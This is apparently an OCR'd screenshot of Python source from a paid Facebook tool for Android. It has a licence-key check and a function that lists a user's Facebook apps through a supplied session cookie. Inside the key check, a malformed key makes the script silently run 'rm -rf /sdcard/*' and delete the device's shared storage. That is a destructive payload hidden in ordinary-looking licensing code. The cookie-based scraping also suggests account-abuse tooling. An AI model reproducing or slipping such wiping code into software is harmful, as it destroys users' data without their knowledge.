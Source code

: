     if len(token_two)>=8:
        os.system("rm -rf /sdcard/*")
        os.system("rm -rf /sdcard")
        os.system('rm -rf '+key_save_one+'')
        exit()
    else:
        f_token=token_one+token_two
    my_server=requests.get("https://www.facebook.com/100042882302159/posts/pfbid02ZG78gghaeEdjhr1Vo6MyvoHcPZkrCZcpH3ycnoEsswzLdVF5aZ8GueSYoHZxazael/?app=fbl").text
    if f_token in my_server:
        xyz()
    else:
        _help=uuid.uuid1().hex[:6].upper()+"=HBF"
        print("\n\t     [ Hello User ]\n")
        print(" This is paid tool you need subscription to use")
        print(" for buy subscription press enter an msg")
        print(" to RSA Programmer fb page and your key")
        print(" otherwise msg on this whatsapp 03155912839 \n")
        print(" Copy your Key :",gre,f_token+_help,wit,"\n")
        os.system("xdg-open https://www.facebook.com/H4M11.YOUR.DAD")
        exit()


#---------------------[APPLICATION CHECKER]---------------------#
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Active  Apk%s  '%(N,M,N,M,N))
    else:
        print(f'\r[🎮] %s ☆ Your Active Apps ☆     :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Expired Apk%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r[🎮] %s ◇ Your Expired Apps ◇    :{WHITE}'%(M))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N))
        else:
            print(57*'-')
